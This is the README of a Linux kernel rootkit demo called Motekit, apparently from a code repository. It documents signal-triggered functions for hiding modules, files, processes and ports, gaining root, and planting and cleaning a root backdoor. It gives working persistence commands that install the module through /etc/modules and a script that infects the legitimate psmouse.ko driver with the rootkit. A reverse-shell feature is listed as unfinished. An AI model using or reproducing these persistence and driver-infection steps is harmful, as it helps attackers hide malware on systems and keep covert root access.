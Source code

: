 # Motekit

> Description：Simple Rootkit Demo
>
> Base：ubuntu16.04
>
> Kernel：4.15.0-66



## Target

- [x] Hide/Unhide Module

  - [x] lsmod
  - [x] /proc/modules
  - [x] /sys/module

- [ ] Get sys_call_table 

  - [x] Brute force
  - [ ] via MSR_LSTAR register
  - [ ] via /boot/System.map-$(uname -r)
  - [ ] etc....

- [x] Hide/Unhide File ( with  fixed prefix , have to improve )

- [x] Hide/Unhide Process ( with fixed pid , have to improve )

- [x] Hide/Unhide Port ( with fixed port , have to improve  )

- [x] GetRoot

  - [x] directly

- [x] SetBackdoor/CleanBackdoor

- [x] Persistence

  - [x] hijack psmouse module
  - [x] write into /etc/modules

  

## Document

1. **Hide Module**

```
kill -50 [whataver pid]
```

![image-20191101144315568](Motekit.assets/image-20191101144315568.png)



2. **Unhide Module**

```
kill -51 [whataver pid]
```

![image-20191101144350117](Motekit.assets/image-20191101144350117.png)



3. **Hide File**

```
kill -52 [whataver pid]
```

![image-20191101144544479](Motekit.assets/image-20191101144544479.png)



4. **Unhide File**

```
kill -53 [whataver pid]
```

![image-20191101144628064](Motekit.assets/image-20191101144628064.png)



5. **Hide Process**

```
kill -54 [whataver pid]
```

![image-20191101144950681](Motekit.assets/image-20191101144950681.png)



6. **Unhide Process**

```
kill -55 [whataver pid]
```

![image-20191101145055462](Motekit.assets/image-20191101145055462.png)



7. **Hide Port**

```
kill -56 [whataver pid]
```

![image-20191101145236690](Motekit.assets/image-20191101145236690.png)



8. **Unhide Port**

```
kill -57 [whataver pid]
```

![image-20191101145329694](Motekit.assets/image-20191101145329694.png)



9. **Get Root Priviledge Directly**

```
kill -58 [whataver pid]
```

![image-20191101145451185](Motekit.assets/image-20191101145451185.png)



10. **Set Root BackDoor (Follow QuanZhi Backdoor Event)**

```
kill -59 [whataver pid]
```

![image-20191101145725084](Motekit.assets/image-20191101145725084.png)



11. **Clean The BackDoor**

```
kill -60 [whataver pid]
```

![image-20191101150014570](Motekit.assets/image-20191101150014570.png)



12. **Persistence**

```
kill -61 [whataver pid]
```

This is the easist way to persistence.

```
sudo cp myrootkit.ko /lib/modules/$(uanme -r)/kernel/drivers/
echo 'myrootkit' | sudo tee -a /etc/modules
sudo depmod
```

![image-20191101150058924](Motekit.assets/image-20191101150058924.png)

![image-20191101150440222](Motekit.assets/image-20191101150440222.png)

Second , I hijack the module psmouse.ko , however it doesn't work after i reboot my machine.

```
#!/bin/bash
cp /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko .
objcopy psmouse.ko gpsmouse.ko --globalize-symbol psmouse_init --globalize-symbol psmouse_exit
make --quiet
ld -r gpsmouse.ko myrootkit.ko -o infected.ko 
setsym infected.ko init_module $(setsym infected.ko hide_file_init)
setsym infected.ko cleanup_module $(setsym infected.ko hide_file_exit)
rmmod psmouse
insmod infected.ko
ls -al ./
rmmod psmouse
ls -al ./
cp infected.ko /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
insmod /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
```



13. Reverse shell ( TODO , not finished yet )

```
kill -62
```

